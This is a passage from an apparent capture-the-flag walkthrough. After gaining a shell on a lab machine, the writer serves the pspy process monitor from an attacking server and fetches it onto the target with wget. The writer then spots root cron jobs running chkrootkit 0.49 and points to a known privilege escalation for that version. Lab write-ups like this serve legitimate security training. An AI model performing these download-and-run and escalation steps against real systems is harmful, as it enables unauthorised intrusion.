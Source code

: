 ...
Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
The system informs us that the scan will be launched within 60 seconds. This hints that there is a process that is running that we might want a closer look into.

PSpy Process Monitor
We will try running the PSpy process monitoring tool to check what might be running on the system. Download the tool from https://github.com/DominicBreuker/pspy and host it on the attacking web server:

kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.120.164 - - [26/Aug/2020 13:25:01] "GET /pspy64 HTTP/1.1" 200 -
...
We will download it onto the target and execute it there:

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cd /tmp
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ /bin/wget http://192.168.118.3/pspy64
--2020-08-26 13:25:01--  http://192.168.118.3/pspy64
Connecting to 192.168.118.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                      100%[=========================================>]   2.94M  1.06MB/s    in 2.8s    

2020-08-26 13:25:03 (1.06 MB/s) - ‘pspy64’ saved [3078592/3078592]

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ /bin/chmod +x pspy64 
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     
...
After some more output, PSpy shows us the following:

...
2020/08/26 13:26:01 CMD: UID=0    PID=5285   | /usr/sbin/CRON -f 
2020/08/26 13:26:01 CMD: UID=0    PID=5286   | /usr/sbin/CRON -f 
2020/08/26 13:26:01 CMD: UID=0    PID=5287   | /bin/sh -c /bin/bash /root/script.sh 
2020/08/26 13:26:01 CMD: UID=0    PID=5288   | /bin/bash /root/script.sh 
2020/08/26 13:26:01 CMD: UID=0    PID=5291   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2020/08/26 13:26:01 CMD: UID=0    PID=5290   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2020/08/26 13:26:01 CMD: UID=0    PID=5289   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2020/08/26 13:26:01 CMD: UID=0    PID=5292   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2020/08/26 13:26:01 CMD: UID=0    PID=5305   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2020/08/26 13:26:01 CMD: UID=0    PID=5306   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2020/08/26 13:26:01 CMD: UID=0    PID=5307   | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2020/08/26 13:26:01 CMD: UID=0    PID=5308   | /bin/sh /root/chkrootkit-0.49/chkrootkit
...
Looking up chkrootkit-0.49 leads us directly to a local privilege escalation vulnerability in Chkrootkit version 0.49 (https://www.exploit-db.com/exploits/33899).